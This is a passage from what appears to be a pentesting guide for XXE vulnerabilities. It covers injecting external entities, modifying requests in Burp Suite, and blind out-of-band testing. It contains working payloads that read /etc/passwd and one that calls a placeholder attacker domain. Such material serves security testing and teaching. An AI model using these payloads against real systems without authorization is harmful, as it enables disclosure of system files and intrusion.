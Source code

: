 ## 2. Inject External Entities
- Try injecting external entities into the XML input to see if the application processes them. Start with basic file disclosure payloads.
  
**Example:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data>
  <user>&xxe;</user>
</data>
```

## 3. Use Burp Suite to Intercept and Modify Requests
- Use Burp Suite to intercept XML-based HTTP requests, modify the request to include external entities, and observe the response.

**Example Interception:**
```http
POST /api HTTP/1.1
Host: <target_domain>
Content-Type: application/xml
Content-Length: 123

<?xml version="1.0" encoding="UTF-8"?>
<data>
  <user>John</user>
</data>
```

Modify the request to include an external entity:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data>
  <user>&xxe;</user>
</data>
```

## 4. Test for Blind XXE with Out-of-Band Channels
- For blind XXE, test using out-of-band (OOB) channels, such as DNS or HTTP requests. Inject an external entity that references a URL under your control, and monitor for incoming requests.

**Example:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
<!ENTITY xxe SYSTEM "http://<attacker_domain>/log"> ]>
<data>
  <user>&xxe;</user>
</data>
```
